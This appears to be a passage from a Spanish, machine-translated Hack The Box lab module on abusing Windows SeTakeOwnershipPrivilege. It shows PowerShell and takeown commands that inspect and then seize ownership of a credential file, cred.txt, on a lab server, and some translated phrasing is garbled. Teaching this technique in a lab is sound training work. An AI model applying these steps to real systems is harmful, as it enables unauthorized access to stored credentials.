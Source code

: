 Veamos nuestro archivo objetivo para recopilar un poco más de información al respecto.

  SetakeownershipPrivilege

```powershell-session
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
 
FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM    Archive
```

#### Verificación de la propiedad del archivo

Podemos ver que el propietario no se muestra, lo que significa que probablemente no tenemos suficientes permisos sobre el objeto para ver esos detalles. Podemos hacer una copia de seguridad un poco y ver al propietario del directorio de TI.

  SetakeownershipPrivilege

```powershell-session
PS C:\htb> cmd /c dir /q 'C:\Department Shares\Private\IT'

 Volume in drive C has no label.
 Volume Serial Number is 0C92-675B
 
 Directory of C:\Department Shares\Private\IT
 
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  .
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  ..
06/18/2021  12:23 PM                36 ...                    cred.txt
               1 File(s)             36 bytes
               2 Dir(s)  17,079,754,752 bytes free
```

Podemos ver que la compartir TI parece ser propiedad de una cuenta de servicio y contiene un archivo`cred.txt`con algunos datos dentro de él.

#### Tomar posesión del archivo

Ahora podemos usar el[que se lleva a cabo](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown)Windows Binary para cambiar la propiedad del archivo.

  SetakeownershipPrivilege

```powershell-session
PS C:\htb> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
 
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\htb-student".
```

#### Confirmar la propiedad cambiada

Podemos confirmar la propiedad utilizando el mismo comando que antes. Ahora vemos que nuestra cuenta de usuario es el propietario del archivo.
